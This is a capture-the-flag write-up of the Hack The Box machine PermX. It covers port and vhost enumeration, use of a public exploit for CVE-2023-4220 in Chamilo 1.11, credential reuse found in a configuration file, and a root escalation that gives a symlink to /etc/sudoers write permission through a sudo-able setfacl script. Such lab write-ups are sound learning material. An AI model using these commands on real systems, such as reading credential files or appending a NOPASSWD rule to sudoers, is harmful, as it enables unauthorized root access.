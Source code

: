 # PermX Writeup - by Thammanant Thamtaranon  
- PermX is an easy Linux-based machine hosted on Hack The Box.

## Reconnaissance  
- We began by performing a full TCP port scan with version detection and OS fingerprinting using the command:  
  `nmap -A -T4 -p- 10.10.11.23`  
![Nmap_Scan](Nmap_Scan.png)  
- We added `permx.htb` to our `/etc/hosts` file to enable hostname resolution.

## Scanning & Enumeration  
- We enumerated web directories using:  
  `dirsearch -u http://10.10.11.23`  
![Dirsearch_Scan1](Dirsearch_Scan1.png)  
- We performed VHost enumeration using:  
  `ffuf -u http://permx.htb -H "Host: FUZZ.permx.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac`  
- This revealed the subdomains `www` and `lms`, which we added to `/etc/hosts`.  
- We visited `lms.permx.htb` and observed a web application.  
![LMS](LMS.png)  
- Further enumeration with:  
  `dirsearch -u http://lms.permx.htb`  
revealed additional paths.  
![Dirsearch_Scan2](Dirsearch_Scan2.png)  
- We identified the web application as **Chamilo version 1.11**.  
![Chamilo](Chamilo.png)

## Exploitation  
- Searching for vulnerabilities in Chamilo 1.11 led us to **CVE-2023-4220**.  
- We obtained a public PoC and executed the exploit successfully.  
![Exploit](Exploit.png)  
- This granted us a web shell as `www-data`.  
![www-data](www-data.png)  
- We enumerated users using:  
  `cat /etc/passwd`  
and confirmed the presence of user `mtz`.  
![PASSWD](PASSWD.png)  
- We discovered database credentials inside:  
  `/var/www/chamilo/app/config/configuration.php`  
![Password](Password.png)  
- Assuming credential reuse, we attempted to SSH into the box as `mtz` using the recovered password, which was successful.  
![Mtz](Mtz.png)  
- We obtained the **user flag**.

- Checking sudo privileges with:  
  `sudo -l`  
showed that `mtz` could run `/opt/acl.sh` as root.  
![SUDO](SUDO.png)  
- Reading the contents of the script:  
  `cat /opt/acl.sh`  
revealed that it modifies file permissions via `setfacl`.  
![ACL](ACL.png)  

### Key Observations:
- The script:
  - Only works on files in `/home/mtz/`
  - Blocks paths containing `..`
  - Only affects regular files  
- However, it **does not check for symlinks**, which allows us to bypass the path restrictions.

### Privilege Escalation via Symlink ACL Abuse:
1. Create a symlink pointing to `/etc/sudoers`:  
   `ln -s /etc/sudoers /home/mtz/mysudoers`
2. Run the vulnerable script to assign read-write ACL to the symlink (which applies to `/etc/sudoers`):  
   `sudo /opt/acl.sh mtz rw /home/mtz/mysudoers`
3. Append a line to the sudoers file granting passwordless sudo:  
   `echo "mtz ALL=(ALL) NOPASSWD:ALL" >> /home/mtz/mysudoers`
4. Escalate to root:  
   `sudo su`  
![Root](Root.png)  
- We obtained the **root flag**, completing the machine.
